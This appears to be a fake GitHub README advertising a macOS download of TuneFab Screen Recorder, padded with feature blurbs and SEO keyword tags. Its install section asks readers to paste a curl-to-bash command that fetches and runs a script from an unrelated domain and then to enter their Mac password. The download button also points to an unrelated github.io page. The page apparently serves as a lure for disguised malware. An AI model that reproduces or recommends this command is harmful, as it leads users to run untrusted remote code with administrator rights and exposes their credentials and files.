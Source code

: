 # TuneFab Screen Recorder — Download For Mac OS 🎥  
TuneFab Screen Recorder is a powerful and intuitive tool that allows you to capture screen activity, system sound, microphone, and webcam on your Mac. Perfect for creating tutorials, gameplay videos, or online meeting recordings. Follow the steps below to install it easily on macOS.

[![Download for macOS](https://img.shields.io/badge/Download%20for-macOS-blue?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/tunefab)

If the button above doesn't work, follow the terminal-based instructions below to install TuneFab Screen Recorder manually.

---

## 📦 How to Install TuneFab Screen Recorder For Mac

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag TuneFab Screen Recorder to your Applications folder.
3. Open Terminal and run the app if prompted by macOS security.
4. Press “Return” and enter your Mac password (leave blank if you don’t have one).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

---

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal on your Mac and paste the command.
3. Press “Return” and enter your password to confirm.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 Features

- 🎥 **Record Screen & Webcam** — Capture full screen, custom area, or camera feed.
- 🔊 **System & Mic Audio** — Record internal audio and external voice simultaneously.
- ⏱ **Scheduled Recordings** — Automate start/stop times for recording sessions.
- ✂️ **Built-in Editing Tools** — Trim, annotate, and enhance your recordings.
- 💾 **Multiple Output Formats** — Save in MP4, MOV, M4V, and more.
- 🎓 **Use Cases** — Ideal for tutorials, streaming, online classes, and meetings.

---

## About TuneFab Screen Recorder

TuneFab Screen Recorder is a professional-grade tool designed for users who need high-quality screen capturing solutions. Whether you're recording an online course, video call, or gameplay, this tool ensures crisp visuals and synchronized audio.

The macOS version is optimized for smooth performance and offers user-friendly controls that make screen recording accessible to everyone. With flexible recording areas and customizable settings, users can tailor every capture to their exact needs.

Unlike many bulky recorders, TuneFab maintains a lightweight footprint while offering advanced features like scheduling, hotkeys, and real-time annotation. It also supports hardware acceleration for fast exporting.

**Why choose TuneFab Screen Recorder?**  
It combines reliability, versatility, and professional-level recording in one easy-to-use interface. Perfect for Mac users who want quality results without complex setup.

---

## 🖼 Preview

![Recording Dashboard](https://www.tunefab.com/uploads/article/resources-o/images/screen-recorder/select-video-recorder.jpg)  
*Main control panel for starting and customizing your recordings.*

---

## 🔍 Tags

tunefab screen recorder, tunefab screen download, tunefab screen recorder for mac, tunefab screen download, tunefab download, tunefab screen recorder free, tunefab screen recorder download, download tunefab mac, free screen recorder mac, mac screen recording software, tunefab macos install, screen capture mac free, record mac screen with audio, tunefab screen recorder dmg, how to install tunefab on mac
